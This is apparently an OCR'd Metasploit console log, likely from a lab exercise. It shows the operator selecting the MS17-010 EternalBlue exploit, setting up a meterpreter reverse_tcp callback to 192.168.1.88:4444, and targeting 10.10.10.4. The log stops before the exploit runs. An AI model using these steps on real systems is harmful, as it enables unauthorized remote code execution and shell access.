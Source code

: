```c
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windo
                                             ws 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7
                                             , Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows
                                             Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.88     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.4
```